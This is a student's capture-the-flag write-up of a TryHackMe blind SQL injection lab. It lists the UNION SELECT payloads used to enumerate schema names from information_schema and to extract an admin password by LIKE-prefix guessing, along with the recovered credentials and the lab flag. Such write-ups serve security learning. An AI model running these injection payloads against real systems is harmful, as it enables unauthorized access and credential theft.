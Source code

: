 # Level Three – Boolean-Based Blind SQLi

**Date recorded:** 2025-09-24  
**Lab Objective:** Enumerate database, table, and column names using Boolean-based Blind SQLi.

**Payloads used:**  ```http
- Check username existence:  
https://website.thm/checkuser?username=admin

**Discover database name and tables:**
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema='sqli_three' AND table_name LIKE 'u%';--

**Enumerate columns:**
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' AND TABLE_NAME='users' AND COLUMN_NAME LIKE 'a%';

**Retrieve username and password:**
admin123' UNION SELECT 1,2,3 FROM users WHERE username='admin' AND password LIKE '3845%';

**Result / Notes:**
- Successfully discovered database sqli_three, table users, and columns id, username, password.
- Retrieved login credentials by cycling through characters.
- Flag obtained for this task: Flag: THM{SQL_INJECTION_1093}
- Performed in a safe TryHackMe lab environment.

**Recovered Data:**
Username: admin
Password: 3845



**Screenshot:**
![Level 3 Boolean-Based Blind SQLi](./sqli-screenshots/level3/2025-09-24-Boolean-Blind-SQLi.png)


**What I Learned:**
- Boolean-based Blind SQLi requires careful observation of true/false responses.
- Enumeration using information_schema is crucial to map database structure.
- Patience and methodical testing are key to finding hidden data.